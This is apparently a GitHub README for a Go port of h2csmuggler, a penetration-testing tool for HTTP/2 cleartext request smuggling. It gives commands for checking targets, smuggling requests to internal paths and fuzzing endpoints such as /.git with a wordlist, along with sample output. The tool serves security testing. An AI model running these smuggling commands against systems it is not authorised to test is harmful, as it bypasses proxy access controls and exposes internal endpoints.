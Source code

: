 
# h2cSmuggler

## Tl;dr

this repo implements h2csmuggler from https://github.com/BishopFox/h2csmuggler in golang.

this repo also implements a golang library for performing h2c smuggling. This was done via forking the net/http2 library and modifying the client to accept and process non-spec compliant h2c upgrades over tls connections. This can also handle h2c upgrades over http.

Two utilities have been added to assist testing:

```
# check will return whether a h2c connection can be formed and the first request will return
go run ./cmd/h2csmuggler check https://google.com/ http://localhost

# smuggle will attempt the cli arguments as URLs sequentially
go run ./cmd/h2csmuggler smuggle https://google.com/ https://google.com/flag

# demo will create a http server that accepts non-complaint `Connection: Upgrade` connections and upgrade them to h2c for testing
go run ./cmd/demo

$ cat ~/tools/lists/rafter.txt | head -n 10 | ./h2cs mutate pitchfork http://localhost - -p api | ./h2cs smuggle http://localhost - -ojson
{"body":38,"level":"info","msg":"success","status":200,"target":"http://localhost/javsacript/main.js","time":"2020-09-16T12:43:05+10:00"}
{"body":39,"level":"info","msg":"success","status":200,"target":"http://localhost/javascripts/main.js","time":"2020-09-16T12:43:05+10:00"}
{"body":24,"level":"info","msg":"success","status":200,"target":"http://localhost/.git","time":"2020-09-16T12:43:05+10:00"}
{"body":28,"level":"info","msg":"success","status":200,"target":"http://localhost/api/_rpc","time":"2020-09-16T12:43:05+10:00"}
{"body":34,"level":"info","msg":"success","status":200,"target":"http://localhost/api/csrf-token","time":"2020-09-16T12:43:05+10:00"}
{"body":27,"level":"info","msg":"success","status":200,"target":"http://localhost/cgi-bin","time":"2020-09-16T12:43:05+10:00"}
<snip>
```


### Author

Twitter: [@seanyeoh](https://twitter.com/seanyeoh)

GitHub: [minight](https://github.com/minight/)

### Original Research

Jake Miller - https://github.com/BishopFox/h2csmuggler
